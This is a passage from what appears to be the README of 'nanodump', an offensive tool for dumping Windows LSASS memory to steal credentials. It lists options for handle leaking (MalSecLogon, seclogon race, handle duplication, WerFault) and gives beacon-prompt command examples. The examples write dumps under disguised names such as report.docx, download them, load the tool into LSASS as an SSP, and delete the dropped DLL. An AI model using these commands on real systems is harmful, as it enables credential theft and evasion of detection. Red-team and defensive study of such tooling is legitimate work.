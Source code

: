 #### --snapshot -s
Create a snapshot of LSASS and dump this new process.

#### --dup -d
Try to find an existing handle to LSASS and duplicate it.

#### --malseclogon -m
Leak a handle to LSASS using MalSecLogon.  
**If used as BOF, an unsigned binary will be written to disk unless --dup is also provided!**

#### --binary -b < path >
Path to a binary such as `C:\Windows\notepad.exe`.  
This option is used exclusively with `--malseclogon` and `--dup`. 

#### --malseclogon-race -mr
Force seclogon to open a handle to LSASS and duplicate it.  

#### --werfault -wf < folder >
Path to the folder where the WerFault process will create an LSASS dump.  

<h2 id="examples">13. Examples</h2>

Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use MalSecLogon to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --malseclogon --dup --fork --binary C:\Windows\notepad.exe --valid
```

Get a handle with MalSecLogon, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --malseclogon --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --dup --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
beacon> load_ssp
beacon> delete_file C:\Windows\Temp\[RANDOM].dll
```

